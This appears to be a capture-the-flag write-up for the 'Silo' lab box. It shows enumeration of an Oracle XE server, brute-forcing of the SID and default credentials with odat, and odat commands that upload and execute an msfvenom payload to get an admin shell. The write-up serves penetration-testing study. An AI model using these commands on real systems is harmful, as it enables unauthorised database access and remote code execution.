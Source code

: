 # Silo Box Write up

> Note that this was the unintended way

### Tool Used

- odat.py

  https://github.com/quentinhardy/odat

  https://github.com/quentinhardy/odat/wiki

## Enumeration

```
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp open oracle-tns Oracle TNS listener 11.2.0.2.0 (unauthorized)
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open msrpc Microsoft Windows RPC
49153/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
49155/tcp open msrpc Microsoft Windows RPC
49158/tcp open msrpc Microsoft Windows RPC
49160/tcp open oracle-tns Oracle TNS listener (requires service name)
49161/tcp open msrpc Microsoft Windows RPC
49162/tcp open msrpc Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 
```



A basic scan show that the server is running an `Oracle` instance

> More Information:
>
> https://www.adampalmer.me/iodigitalsec/2013/08/12/first-steps-in-oracle-penetration-testing/

After some researching. The below information will be needed for an Oracle database

- SID 
- User / Password

You can get the SID via `nmap` or `odat`

```
nmap --script oracle-sid-brute
PORT STATE SERVICE
80/tcp open http
135/tcp open msrpc
139/tcp open netbios-ssn
445/tcp open microsoft-ds
1521/tcp open oracle
| oracle-sid-brute:
|_ XE
```

With the SID found we can then brute force the user and password with odat

```
odat.py passwordguesser -s $SERVER -d XE
```

Which return a valid set of credentials `scott/tiger` (which is a default btw)

Once we got a valid set of credentials. We can login into the oracle database using `sqlplus`



After some enumeration and trying to escalate to dba using various "misconfiguration". 

I found that you can simply run `sqlplus` with `as dba` 



### Getting a shell

Notice that the oracle instance that we are running is an express version. Which mean that there is no `java` installed in the database which allow us to run command via java. Hence we need to find other method of entry

> Attack Plan:
>
> - Craft payload with msfvenom
> - Upload payload with odat utlfile
> - Execute payload with odat externaltable

```
./odat.py utlfile -s <ip> -d XE -U scott -P tiger --sysdba --putFile /Windows/Temp exploit.exe shell.exe
./odat.py externaltable -s <ip> -d XE -U scott -P tiger --sysdba --exec /Windows/Temp/exploit.exe
```

This will eventually return us an `admin` shell



### Useful Information

Windows have all writable folder at `C:\Windows\Temp` or `C:\Users\Public` 

